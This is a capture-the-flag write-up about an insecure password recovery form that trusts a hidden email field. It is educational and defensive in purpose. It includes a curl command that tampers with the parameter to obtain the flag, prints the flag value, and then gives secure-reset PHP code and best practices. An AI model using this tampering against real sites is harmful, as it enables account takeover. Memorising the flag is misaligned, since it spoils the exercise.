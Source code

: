 # Password Recovery Form Vulnerability

## 🎯 Overview
This vulnerability demonstrates an insecure password recovery implementation where the application fails to properly validate email addresses and relies on client-side hidden form fields for sensitive operations.

## 🔍 Vulnerability Details
- **Endpoint**: `/index.php?page=recover`
- **Parameter**: `mail` (hidden form field)
- **Method**: POST
- **Attack Vector**: Hidden Form Field Manipulation

## ⚔️ Exploitation Process

### 1. Vulnerability Discovery
- Located password recovery form
- Inspected HTML source
- Found hidden email field: `<input type="hidden" name="mail" value="example@mail.com">`

### 2. Attack Method
```bash
# Exploit using cURL to modify hidden mail parameter
curl 'http://x.x.x.x/?page=recover#' \
  --data 'mail=marvin@42.fr&Submit=Submit' \
  | grep 'The flag is'
```

### Attack Result
**Flag**: 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

## 🛡️ Security Issues Identified
1. Client-side email validation
2. Hidden form field for sensitive data
3. No server-side validation
4. Weak access controls
5. Insecure password recovery flow

## 🔒 Recommended Security Fixes

### 1. Implement Secure Password Recovery
```php
function initiatePasswordReset($email) {
    // Verify user exists
    if (!userExists($email)) {
        return genericError();
    }
    
    // Generate secure token
    $token = bin2hex(random_bytes(32));
    
    // Store token with expiration
    storeResetToken($email, $token, time() + 3600);
    
    // Send reset email
    sendResetEmail($email, $token);
}
```

### 2. Security Measures Checklist
- [ ] Implement server-side validation
- [ ] Use secure token generation
- [ ] Set token expiration
- [ ] Rate limit reset attempts
- [ ] Log recovery attempts
- [ ] Implement account lockout
- [ ] Use secure email templates

### 3. Secure Reset Flow Implementation
```php
// Example secure reset flow
class PasswordReset {
    public function handleResetRequest($email) {
        // Rate limiting
        if ($this->isRateLimited($email)) {
            throw new Exception('Too many attempts');
        }
        
        // Verify user exists but don't reveal this info
        $user = $this->findUser($email);
        if ($user) {
            $token = $this->generateSecureToken();
            $this->storeResetAttempt($email, $token);
            $this->sendResetEmail($email, $token);
        }
        
        // Always return generic message
        return 'If an account exists, instructions have been sent';
    }
}
```

## 📝 Best Practices

### Password Reset Email Template
```html
<p>Hello,</p>
<p>A password reset was requested for your account. 
   If you did not request this, please ignore this email.</p>
<p>Click the link below to reset your password 
   (valid for 1 hour):</p>
<a href="https://example.com/reset?token={{secure_token}}">
    Reset Password
</a>
```

## 📚 Additional Resources
- [OWASP Password Reset Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html)
- [NIST Digital Identity Guidelines](https://pages.nist.gov/800-63-3/)
- [Troy Hunt: Everything you ever wanted to know about building a secure password reset feature](https://www.troyhunt.com/everything-you-ever-wanted-to-know/)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.